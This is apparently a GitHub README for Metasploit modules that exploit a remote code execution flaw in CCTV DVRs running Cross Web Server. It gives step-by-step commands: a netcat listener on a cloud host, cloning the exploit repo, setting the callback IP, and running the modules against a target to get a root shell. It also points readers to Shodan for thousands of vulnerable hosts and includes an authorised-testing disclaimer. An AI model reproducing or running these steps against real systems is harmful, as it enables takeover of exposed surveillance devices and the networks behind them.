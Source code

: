This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

Step 1:

On this cloud host type
```
nc -l 666
```
On another host, or the same host in another window (making sure metasploit is installed)

Step 1:
```
cd /usr/share/metasploit-framework/modules/exploits/linux/http
```
Step 2:
```
git clone https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module.git
```
Step 3:

edit the line containing host = "192.168.0.1" inside CCTV_DVRwrite.rb to be the ip of your cloud host


Step 4:

type 

```
msfconsole
```
Step 5:

```
use exploit/linux/http/CCTV_DVRwrite 
set RHOST yourtargethost.com
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part) Step 6:

```
use exploit/linux/http/CCTV_DVRrun 
set RHOST yourtargethost.com 
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part)

Step 7:

go back to your cloud or web-facing ip netcat session and type in:
```
whoami
```

to get the answer

root

if the exploit executed succesfully
